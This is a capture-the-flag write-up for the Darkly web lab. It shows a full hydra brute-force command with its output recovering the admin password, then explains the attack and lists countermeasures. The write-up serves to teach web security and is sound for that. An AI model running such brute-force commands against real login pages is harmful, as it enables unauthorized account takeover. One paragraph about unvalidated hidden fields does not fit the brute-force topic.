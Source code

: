 # Bruteforce(member)

From coookies we know for sure that there is a user with login `admin`. Let's try to bruteforce the password for it.
[Here](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) we have the most common passwords.

We use `hydra` to iterate through them:

```
daiseed@DESKTOP:~/darkly$ hydra -l admin -P ./500-worst-passwords.txt -F [VM_IP] http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-18 01:03:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 101 login tries (l:1/p:101), ~7 tries per task
[DATA] attacking http-get-form://[VM_IP]:80/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif
[80][http-get-form] host: [VM_IP]   login: admin   password: shadow
[STATUS] attack finished for [VM_IP] (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-18 01:03:43
```

We have admin's password: `shadow`

Input `admin:shadow` into Login page and we have our flag

![adminLogin](./img/adminLogin.png)


![flag](./img/flag.png)

## Explanation

Attack type: [Brute force attack](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)

> A common threat web developers face is a password-guessing attack known as a brute force attack. A brute-force attack is an attempt to discover a password by systematically trying every possible combination of letters, numbers, and symbols until you discover the one correct combination that works. If your web site requires user authentication, you are a good target for a brute-force attack.

Once the adversary has determined which hidden fields are not being validated by the server, they will manipulate them to change the normal behavior of the web application in a way that benefits the adversary.

## How to fix it

Below are several solitions to brute force attack. All of them have their own downsides and limitations, attackers can often circumvent many of these techniques by themselves, but by combining several techniques, you can significantly limit brute-force attacks.

1) Lock out accounts after a defined number of incorrect password attempts
2) Since the success of the attack is dependent on time, an easy solution is to inject random pauses when checking a password
3) Lock out an IP address with multiple failed logins
4) Design your Website not to use predictable behavior for failed passwords
5) After one or two failed login attempts, you may want to prompt the user not only for the username and password but also to answer a secret question
6) For advanced users who want to protect their accounts from attack, give them the option to allow login only from certain IP addresses.
7) Assign unique login URLs to blocks of users so that not all users can access the site from the same URL.
8) Use a CAPTCHA to prevent automated attacks
9) Instead of completely locking out an account, place it in a lockdown mode with limited capabilities.

Although brute-force attacks are difficult to stop completely, they are easy to detect because each failed login attempt records an HTTP 401 status code in your Web server logs. It is important to monitor your logfiles for brute-force attacks – in particular, the intermingled 200 statuscodes that mean the attacker found a valid password.